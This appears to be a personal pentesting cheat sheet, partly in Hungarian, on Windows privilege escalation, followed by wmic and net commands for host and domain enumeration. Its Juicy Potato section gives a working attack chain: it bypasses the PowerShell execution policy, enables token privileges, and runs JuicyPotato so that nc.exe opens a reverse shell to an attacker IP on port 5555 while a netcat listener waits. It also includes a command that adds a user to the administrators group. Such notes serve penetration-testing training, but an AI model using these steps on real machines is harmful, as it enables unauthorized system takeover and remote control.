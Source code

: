 # Win privesc techniques
## Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * ez nem mukodott
      * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * ez mukodott
      * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
* Eloszor futtassuk a JuicyPotato binary-t uresen. Ki kell hogy adja e help menut.
* Utana parameteresen futtassuk
  * Ha hiba van, erdemes megnezni egyesevel a cmd es nc binary-kat az absolute uttal, hogy jok e
  * Ha COM recv hiba van, akkor masik clsid-t probaljunk meg
    * Minden oprendszer verziohoz kulon vannak, itt talalhatok
      * https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
    * Valasszuk ki a megfelelo oprendszer verziot, es ott 4-5 darabot probaljunk meg a clsid-k kozul, valamelyiknek mukodnie kell
<pre>
<b># victim machine</b>
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
PS> Import-Module .\EnableAllTokenPrivs.ps1
PS> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
PS> whoami /priv (most mar elvileg Enabled lett)
PS> .\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\downloads\nc.exe 10.10.16.5 5555 -e c:\windows\system32\cmd.exe" -t * -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"

<b># attack machine</b>
$ nc -nvlp 5555
</pre>
## File permissions
<pre>
<b># get file permissions</b> 
C:\> icacls "C:\file1.txt"
</pre>
<pre>
<b># resource access level</b>
(CI): container inherit
(OI): object inherit
(IO): inherit only
(NP): do not propagate inherit
(I): permission inherited from parent container

<b># basic access permissions</b>
F : full access
D :  delete access
N :  no access
M :  modify access
RX :  read and execute access
R :  read-only access
W :  write-only access
</pre>
## Host enumeration
### Host enumeration with WMIC
|Command|Description|
|-------|-----------|
|wmic qfe get Caption,Description,HotFixID,InstalledOn|Prints the patch level and description of the Hotfixes applied|
|wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List|Displays basic host information to include any attributes within the list|
|wmic process list /format:list|A listing of all processes on host|
|wmic ntdomain list /format:list|Displays information about the Domain and Domain Controllers|
|wmic useraccount list /format:list|Displays information about all local accounts and any domain accounts that have logged into the device|
|wmic group list /format:list|Information about all local groups|
|wmic sysaccount list /format:list|Dumps information about any system accounts that are being used as service accounts.|
### Host enumeration with cmd 'net' command
|Command|Description|
|-------|-----------|
|net accounts|Information about password requirements|
|net accounts /domain|Password and lockout policy|
|net group /domain|Information about domain groups|
|net group "Domain Admins" /domain|List users with domain admin privileges|
|net group "domain computers" /domain|List of PCs connected to the domain|
|net group "Domain Controllers" /domain|List PC accounts of domains controllers|
|net group <domain_group_name> /domain|User that belongs to the group|
|net groups /domain|List of domain groups|
|net localgroup|All available groups|
|net localgroup administrators /domain|List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)|
|net localgroup Administrators|Information about a group (admins)|
|net localgroup administrators [username] /add|Add user to administrators|
|net share|Check current shares|
|net user <ACCOUNT_NAME> /domain|Get information about a user within the domain|
|net user /domain|List all users of the domain|
|net user %username%|Information about the current user|
|net use x: \computer\share|Mount the share locally|
|net view|Get a list of computers|
|net view /all /domain[:domainname]|Shares on the domains|
|net view \computer /ALL|List shares of a computer|
|net view /domain|List of PCs of the domain|
